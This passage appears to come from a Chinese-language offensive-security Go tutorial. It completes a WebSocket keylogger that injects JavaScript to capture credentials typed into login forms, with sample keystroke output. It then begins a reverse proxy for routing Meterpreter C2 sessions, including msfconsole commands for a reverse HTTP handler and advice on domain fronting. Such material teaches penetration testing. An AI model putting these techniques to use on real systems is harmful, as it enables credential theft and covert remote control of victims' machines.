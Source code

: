 已经解决了创建WebSocket处理函数中最困难的部分。下一步，创建另一个名为 `serveFile()` 的处理函数。该函数检索并返回JavaScript模板中的内容，并包含上下文数据。为此，设置 `Content-Type` 头为 `application/javascript` 。这样浏览器就知道HTTP响应体中的内容要以JavaScript处理。在该函数的第二行也是最后一行调用 `jsTemplate.Execute(w, wsAddr)` 。还记得启动服务时在 `init()` 函数中是如何解析 _logger.js_ 的吗？把结果存储在 `jsTemplate` 变量中。这行代码就是处理该模板。将 `io.Writer` 类型的参数 （本例中使用的是http.ResponseWriter类型的 w）和 `interface{}` 类型的上下文数据传给该函数。`interface{}` 类型也就是可以传递任何类型的变量，无论是字符串，结构体，还是其他类型。本例中传递的是字符串类型的 `wsAddr`这个变量。如果返回到 `init()` 函数，会看到该变量包含由命令行参数设置的WebSocket服务的地址 。总之，使用数据填充模板并将其作为HTTP响应写入。非常漂亮！

已经完成了 `serveFile()` 和 `serveWS()` 处理函数。现在，只需要配置路由器来执行模式匹配，这样就可以让合适的处理函数继续执行。在 `main()` 中和之前一样，先让两个处理函数匹配 `/ws` URL，执行 `serveWS()` 函数升级WebSocket连接。第二个路由匹配 `/k.js` ，执行 `serveFile()` 函数。这就是服务将渲染好的JavaScript推送个客户端的过程。

让我们启动服务。如果打开HTML文件，应该会有 `connection established` 的信息。这是日志，因为JavaScript文件被浏览器渲染且请求WebSocket连接。如果在表单元素中键入凭证，在服务中会看到下面的输出。

```text
$ go run main.go -listen-addr=127.0.0.1:8080 -ws-addr=127.0.0.1:8080 Connection from 127.0.0.1:58438
From 127.0.0.1:58438: u
From 127.0.0.1:58438: s
From 127.0.0.1:58438: e 
From 127.0.0.1:58438: r 
From 127.0.0.1:58438: 
From 127.0.0.1:58438: p 
From 127.0.0.1:58438: @ 
From 127.0.0.1:58438: s 
From 127.0.0.1:58438: s 
From 127.0.0.1:58438: w 
From 127.0.0.1:58438: o 
From 127.0.0.1:58438: r 
From 127.0.0.1:58438: d
```

成功了，能正常工作了。输出中列出了在填写登录表单时按下的每个按键。在本例中，这是一组用户凭证。如果有问题的话，检查下命令行参数中的地址是否正确。此外，如果试图从 `localhost:8080` 以外的服务中调用 `k.js`，那么需要调整下HTML文件。

有几种方式可以改善代码。第一，可以把日志输出到文件中或其他持久存储中，而不是在终端输出。这样就不会在终端关闭或服务重启后丢失数据。此外，如果同时记录多个客户端的按键，输出的数据将会混淆，这可能会使拼凑特定用户的凭证变得困难。可以使用更好的方式来避免这种情况，例如，根据唯一的客户端/端口源将键击分组。

凭证收集这一部分到这就完成了。我们将通过介绍多路复用HTTP的命令和控制连接来结束本章。

## 多路复用C2

这是HTTP服务器章节的最后一部分。在这里将了解如何将Meterpreter HTTP连接多路复用到不同的后端控制服务器。_Meterpreter_ 是Metasploit开发框架中流行的，灵活的命令与控制（C2）套件。我们不会过多的介绍Metasploit或Meterpreter的细节。对于新手的话，最好通读下网站上的教程或文档。

在本节中，将介绍如何在Go中创建反向HTTP代理，以便能根据Host的HTTP报头（这是虚拟网站托管的工作方式）来动态路由收到的session。但是，把代理连接到不同的Meterpreter监听器，而不是提供不同的本地文件和目录。这是一个有趣的用例，原因如下。

首先，代理充当重定向器，这样就可以只公开该域名和IP地址，而不公开Metasploit监听器。如果重定向器被拉黑，可以简单地移除掉，而不用动C2服务器。第二，可以扩展这里的概念来执行 _domain fronting_，是一种利用信任的第三方域名（通常来自云提供商）绕过限制性出口控制的一种技术。我们不会在这里讨论一个完整的例子，但还是强烈建议深入研究下，因为它非常有用，能退出受限制的网络。最后，使用例子来演示如何在可能攻击不同目标组织的联合团队之间共享单个主机/端口组合。由于端口80和443是最可能允许访问的端口，可以让代理监听这些端口，并智能地将链接路由到正确的监听器。

这是计划。设置两个单独的Meterpreter反向HTTP侦听器。在本例中个，它们安装在IP地址为10.0.1.20的虚拟机中，但是它们很可能存在于不同的主机上。将监听器分别绑定到10080 到 20080端口。在真实的情况下，这些监听器可以运行在任何地方，只要代理能访问到这些端口。确保已经安装了Metasploit\(在Kali Linux上是预先安装了的\)；然后启动监听器：

```text
$ msfconsole
> use exploit/multi/handler
> set payload windows/meterpreter_reverse_http
> set LHOST 10.0.1.20 > set LPORT 80
> set ReverseListenerBindAddress 10.0.1.20 > set ReverseListenerBindPort 10080
> exploit -j -z
[*] Exploit running as background job 1.

[*] Started HTTP reverse handler on http://10.0.1.20:10080
```
